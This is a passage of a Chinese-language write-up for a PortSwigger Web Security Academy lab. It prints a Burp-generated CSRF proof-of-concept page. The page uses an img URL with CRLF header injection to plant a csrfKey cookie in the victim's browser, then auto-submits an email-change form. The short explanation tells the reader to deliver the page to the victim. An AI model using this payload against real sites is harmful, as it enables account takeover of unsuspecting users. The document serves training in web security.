 ```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="[https://0aac003c049cebe3c022c94800810065.web-security-academy.net/my-account/change-email](https://0aac003c049cebe3c022c94800810065.web-security-academy.net/my-account/change-email)" method="POST">
      <input type="hidden" name="email" value="test&#64;mail&#46;com" />
      <input type="hidden" name="csrf" **value="Kv7fuJJyHThqZ8EEwtoABb5JQ5QkwF8G"** />
      <input type="submit" value="Submit request" />
    </form>
  <img src='[**https://0aac003c049cebe3c022c94800810065.web-security-academy.net/?search=hi%0d%0aSet-Cookie:%20csrfKey=2Dj9hmEsH2ReRwZuVRfzoN0HgS2HQPwa**](https://0aac003c049cebe3c022c94800810065.web-security-academy.net/?search=hi%0d%0aSet-Cookie:%20csrfKey=2Dj9hmEsH2ReRwZuVRfzoN0HgS2HQPwa)' **onerror=document.forms[0].submit()**;>
  </body>
</html>
```

img 标记有一个 URL，它将我们的 cookie 注入受害者的浏览器，并在此之后提交表单。

![](img/9b795773c11acc9d8dc8269849bc6743.png)

交给受害者。

![](img/a06b51cf0008830a96f33c43a3346d09.png)
